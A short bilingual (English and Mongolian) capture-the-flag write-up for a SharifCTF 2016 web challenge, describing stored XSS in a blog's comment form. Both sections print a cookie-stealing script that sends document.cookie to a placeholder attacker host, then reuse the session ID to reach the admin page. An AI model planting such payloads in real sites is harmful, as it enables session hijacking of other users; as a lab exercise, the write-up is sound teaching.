 ### Photo Blog - web 100
`Log in as admin`

#EN
This task has web interface that allow us to comment. As suggested in task description, we found `/admin.php`
and `/login.php`.

![](https://raw.githubusercontent.com/tuvshuud/1up/master/SharifCTF2016/photoblog100/shot3.png)
![](https://raw.githubusercontent.com/tuvshuud/1up/master/SharifCTF2016/photoblog100/shot4.png)

At home page, entering following payload works `<script>alert(1)</script>`. Then what about getting admin cookie, once he/she reads this. `<script>window.location.href=<ip>:<port>/c.php?c=document.cookie</script>`

Then we got PHPSESSID, using this we can access to `/admin.php`.
![](https://raw.githubusercontent.com/tuvshuud/1up/master/SharifCTF2016/photoblog100/shot1.png)
![](https://raw.githubusercontent.com/tuvshuud/1up/master/SharifCTF2016/photoblog100/shot2.png)

#MN
Энэ даалгавар веб интерфэйстэй байсан ба админ хэрэглэгчээр нэвтэрвэл флаг гарж ирэх байв. Даалгаварын тайлбар дээр бичсний дагуу тухайн веб сервер дээр `/admin.php`,`/login.php` гэсэн файлууд байгааг оллоо.

![](https://raw.githubusercontent.com/tuvshuud/1up/master/SharifCTF2016/photoblog100/shot3.png)
![](https://raw.githubusercontent.com/tuvshuud/1up/master/SharifCTF2016/photoblog100/shot4.png)

Нүүр хуудас дээр байгаа сэтгэгдэл бичих хэсэг дээр жаваскрипт код бичиж үзвэл ажиллаж байна `<script>alert(1)</script>`. Тэгвэл XSS скрипт оруулаад админы cookie-г авчихвал `/admin.php` рүү хандахдаа тухай cookie г ашиглаад орох боломжтой. `<script>window.location.href=<ip>:<port>/c.php?c=document.cookie</script>`

![](https://raw.githubusercontent.com/tuvshuud/1up/master/SharifCTF2016/photoblog100/shot1.png)
![](https://raw.githubusercontent.com/tuvshuud/1up/master/SharifCTF2016/photoblog100/shot2.png)
